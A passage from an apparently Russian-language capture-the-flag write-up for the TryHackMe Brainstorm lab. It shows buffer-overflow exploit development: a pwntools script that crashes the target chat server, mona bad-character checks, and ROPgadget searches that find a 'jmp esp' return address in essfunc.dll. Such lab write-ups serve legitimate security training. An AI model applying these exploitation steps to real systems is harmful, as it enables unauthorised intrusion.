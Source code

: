```python
        except EOFError:
            log.success("Connection closed by server - likely crashed!")

    except Exception as e:
        log.error(f"Error during exploitation: {str(e)}")
    finally:
        try:
            io.close()
        except:
            pass

    log.info('Test completed. Check debugger for ESP value')
```

Перезапускаю приложение в отладчике и запускаю скрипт
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ python3 x.py
/home/kali/Labs/TryHackMe/Win Medium - Brainstorm/exploits/x.py:123: SyntaxWarning: invalid escape sequence '\m'
  log.info('and run [!mona compare -f "c:\mona\brainpan\bytearray.bin" -a {esp_address}]')
[+] Opening connection to 192.168.56.124 on port 9999: Done
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): 
b'--pentest'
Write a message: 
[+] Server stopped responding - likely crashed!
[*] Closed connection to 192.168.56.124 port 9999
[*] Test completed. Check debugger for ESP value
```
<img width="1910" height="976" alt="image" src="https://github.com/user-attachments/assets/00a174e5-5af8-4e00-bb4a-3311ef2596ae" />  

И смотрю таблицу  
```python
!mona compare -f "c:\mona\chatserver\bytearray.bin" -a 0204EEC0
```
<img width="376" height="325" alt="image" src="https://github.com/user-attachments/assets/ea9e90a6-6afa-46c4-ad45-db251f52155a" />  

- Кроме `x00` бэдчаров нет.  
  
Далее нужно найти функцию для вызова кода из стека в `essfunc.dll`  
Для этого использую `ROPgadget`  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ ROPgadget --binary ./essfunc.dll > essfunc.allgadgets.txt
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ grep -iE "call esp" essfunc.allgadgets.txt | awk -F';' 'NF <= 2' 
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ grep -iE "jmp esp" essfunc.allgadgets.txt | awk -F';' 'NF <= 2'
0x625014df : jmp esp
0x625014dd : mov ebp, esp ; jmp esp
```

